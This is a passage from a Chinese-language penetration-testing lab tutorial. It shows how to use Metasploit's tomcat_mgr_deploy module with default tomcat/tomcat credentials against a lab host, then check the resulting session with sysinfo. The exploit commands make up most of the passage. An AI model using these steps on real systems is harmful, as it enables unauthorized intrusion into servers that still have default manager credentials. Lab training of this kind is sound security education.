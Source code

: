 接着选择相应的攻击模块，使用命令如下：

```
# 使用已经获得的密码进行渗透
use exploit/multi/http/tomcat_mgr_deploy
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480472827813.png-wm)


再由 show 命令查看相应所需填写参数，并设置，这里告诉大家一个清屏的小技巧 `ctrl` + `l`，即为清屏： 

```
# 查看参数
show options

# 设置目标主机地址和所要攻击的端口
set rhost 192.168.122.102

# 设置端口信息
set rport 8180

# 设置 httpusername 账户名
set httpusername tomcat

# 设置 httppassword 密码
set httppassword tomcat
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480474272591.png-wm)


接着进行攻击，这个地方，`大概需要等一分钟左右`：

```
# 输入攻击命令
exploit

```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480476512846.png-wm)


好了，已经渗透入了对方的目标主机，下面我们将进行验证渗透是否成功


### 4.3 进行渗透成功验证

在成功后的命令行终端中，输入命令：

```
# 查看当前主机的系统信息
sysinfo

```

不要输入 `whoami` ，否则会报错，如图所示，显示的操作系统信息：
